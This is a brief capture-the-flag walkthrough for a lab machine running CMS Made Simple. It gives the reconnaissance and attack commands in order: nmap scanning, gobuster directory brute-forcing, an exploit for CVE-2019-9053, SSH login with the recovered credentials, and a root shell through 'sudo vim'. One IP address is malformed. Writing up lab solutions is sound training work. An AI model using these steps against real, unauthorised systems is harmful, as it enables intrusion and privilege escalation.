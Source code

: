 first 
kali>nmap -sT -sV -p- $IP	//-sT for normal tcp scan ,-sV for service version scan ,-p- to scan all ports

there we found that there is website on port 80

doind dir buster on the website 
kali>gobuster -dir -u http://10.10.142.2237/ -w /usr/share/dirb/wordlists/common.txt

there we found a directory /simple/
 where we found CMS Made Simple is running and we also found its version so we found its CVE in internet where we 
found its CVE - CVE-2019-9053

now we will run this script against website
where we find username - mitch
password - secret for ssh

now we will login in through ssh
kali>ssh mitch@$IP -p 2222		//-p to sepicify port that is 2222 in our case

after login we will find user flag now privileg escalation
kali>sudo -l
we find we can run viw as root
so going in GTFObins and entering vim we find 

kali>sudo vim -c ':!/bin/sh'
will give root now get root flag

-----------------------------------------------
kali>nmap -sC -sV -Pn $IP


